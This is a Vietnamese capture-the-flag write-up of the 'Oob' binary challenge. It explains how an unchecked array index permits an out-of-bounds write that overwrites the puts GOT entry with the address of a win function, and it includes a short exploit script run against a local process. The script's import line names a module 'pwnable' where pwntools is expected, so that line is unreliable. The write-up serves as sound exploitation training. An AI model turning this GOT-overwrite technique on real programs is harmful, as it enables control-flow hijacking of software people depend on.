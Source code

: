 # [Access Denied CTF 2022] Oob
<p>Chương trình yêu cầu nhập index và sau đó là giá trị để gán vào arr[index]. Vì người dùng có thể nhập index tùy ý, nên có thể ghi ra ngoài phạm vi mảng -> dẫn đến lỗi Out-of-Bounds.</p>

![alt text](/thanhlai/post/pwnable/image/post3/image.png)

<p>Quan sát bảng Functions, ta có hàm win trả về nội dung flag -> Mục tiêu: trỏ đến hàm win.</p>

![alt text](/thanhlai/post/pwnable/image/post3/image-3.png)

<p>Mảng arr bắt đầu tại địa chỉ 0x404080 trong vùng .bss.</p>

![alt text](/thanhlai/post/pwnable/image/post3/image-1.png)

<p>Hàm puts được gọi ngay sau thao tác ghi vào mảng. Vì địa chỉ GOT của puts là 0x404018, nằm trước mảng arr, nên ta có thể lợi dụng lỗi Out-of-Bounds để ghi đè địa chỉ thực sự của hàm puts này thành địa chỉ của hàm win.</p>

![alt text](/thanhlai/post/pwnable/image/post3/image-6.png)


<p>Có thể tính được index để đến địa chỉ GOT của hàm puts bằng:  - (địa chỉ arr - địa chỉ GOT của puts) chia cho 4. Vì kiểu của các phần tử là int nên kích thước là 4 byte nên chia cho 4. Còn lấy giá trị âm bởi vì địa chỉ địa chỉ GOT của puts nằm trước nên index sẽ có index là âm. Script exploit:</p>

```
from pwnable import *

p = process('./oob')
elf = ELF('./oob')

offset = - (elf.sym['arr'] - elf.got['puts']) // 4  
win_addr = elf.sym['win']

p.sendlineafter(b'Enter the index: ', str(offset).encode())
p.sendlineafter(b'Enter the value: ', str(win_addr).encode())

p.interactive()
```

<p>Chạy script và lấy được flag thành công.</p>

![alt text](/thanhlai/post/pwnable/image/post3/image-4.png)

<p>Sau khi thực hiện script, chương trình gọi puts, nhưng do địa chỉ thực sự của puts đã bị ghi đè thành win, nên thực chất chương trình nhảy vào hàm win và in ra flag.</p>

![alt text](/thanhlai/post/pwnable/image/post3/image-5.png)